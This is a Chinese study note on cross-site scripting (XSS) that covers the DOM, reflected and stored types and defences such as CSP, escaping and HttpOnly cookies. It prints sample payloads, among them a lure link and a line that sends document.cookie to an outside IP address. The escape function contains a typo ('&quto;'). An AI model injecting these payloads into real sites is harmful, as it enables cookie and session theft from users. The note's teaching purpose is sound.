 <!--
 * @Author: your name
 * @Date: 2020-03-07 14:18:48
 * @LastEditTime: 2020-07-07 00:27:59
 * @LastEditors: Please set LastEditors
 * @Description: In User Settings Edit
 * @FilePath: \RW 笔记\web安全\介绍.md
 -->

[常见六大 Web 安全攻防解析](https://www.cnblogs.com/fundebug/p/details-about-6-web-security.html)

[XSS 跨站脚本检测，常见攻击手段——反射型](https://www.cnblogs.com/Tempt/p/11197159.html)

防御方式：

> - CSP
>   CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是由浏览器自己实现的。
>   设置 HTTP Header 中的 Content-Security-Policy
>   设置 meta 标签的方式

> - 转义字符

```js
function escape(str) {
  str = str.replace(/&/g, "&amp;");
  str = str.replace(/</g, "&lt;");
  str = str.replace(/>/g, "&gt;");
  str = str.replace(/"/g, "&quto;");
  str = str.replace(/'/g, "&#39;");
  str = str.replace(/`/g, "&#96;");
  str = str.replace(/\//g, "&#x2F;");
  return str;
}
```

> - HttpOnly Cookie。

# 介绍

xss: 跨站脚本攻击（Cross Site Scripting，本来缩写是 CSS，为了和层叠样式的 CSS 有所区别，所以在安全领域叫“XSS”。）是最常见和基本的攻击 WEB 网站方法。

XSS 的原理是恶意攻击者往 Web 页面里插入恶意可执行网页脚本代码，当用户浏览该页之时，嵌入其中 Web 里面的脚本代码会被执行，从而可以达到攻击者盗取用户信息或其他侵犯用户安全隐私的目的。

# XSS 主要分为三类

## DOM XSS

实际上就是前端 js  代码把不可信的内容插入到了页面。在使用 .innerHTML、.outerHTML、.appendChild、document.write()等 API 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，尽量使用 .innerText、.textContent、.setAttribute() 等。

## 反射型 XSS

详细：[反射型 xss](https://www.cnblogs.com/blunFan/p/11507805.html)
![](https://upload-images.jianshu.io/upload_images/10976729-63e28ea411ca8edc?imageMogr2/auto-orient/strip|imageView2/2/w/377/format/webp)

反射型 XSS 也被称为非持久性 XSS。发出请求时，XSS 代码出现在 URL 中，最后输入提交到服务器，服务器对输入输出数据没有充分检查就在响应内容中出现这段 带 XSS 攻击的 js 代码，最后浏览器解析执行。

往往会引诱用户点击一个非法链接。
例如一个非法连接

```html
<a
  href="http://search.bbs.tom.com/bbs.jsp?q=%22%2F%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E%20&cmd=1&sort=3&ty=1"
>
  漂亮小妹，点此查看
</a>
```

常见的搜索场景是搜索框中：

又或者

```html
<script>alert(‘xss’)</script>
<a href='' onclick=alert('xss')>type</a>
<img src="http://1.1.1.1/a.jpg onerror=alert('xss')">
<script>window.location=‘http://192.168.1.1'</script>
<iframe SRC="http://1.1.1.1/a.jpg" height = "0" width ="0"></iframe>
<script>new Image().src="http://1.1.1.1/c.php?output="+document.cookie;</script>

```

## 存储型 XSS :

存储型 XSS 又被称为持久性 XSS，它是最危险的一种跨站脚本，相比反射型 XSS 和 DOM 型 XSS 具有更高的隐蔽性，所以危害更大，因为它不需要用户手动触发。 允许用户存储数据的 web 程序都可能存在存储型 XSS 漏洞，当攻击者提交一段 XSS 代码后，被服务器端接收并存储，当所有浏览者访问某个页面时都会被 XSS，其中最典型的例子就是留言板。

## XSS 预防：

1、过滤特殊字符

2、设置 httpOnly，浏览器将禁止页面的 JS 访问带有 HttpOnly 属性的 Cookie。HttpOnly 解决的是 XSS 后的 Cookie 劫持攻击。

3、在服务端使用 HTTP 的 CSP( Content-Security-Policy)  头部来指定策略，或者在前端设置  meta  标签。

[内容安全策略 CSP（Content-Security-Policy）](https://blog.csdn.net/u014465934/article/details/84199171)
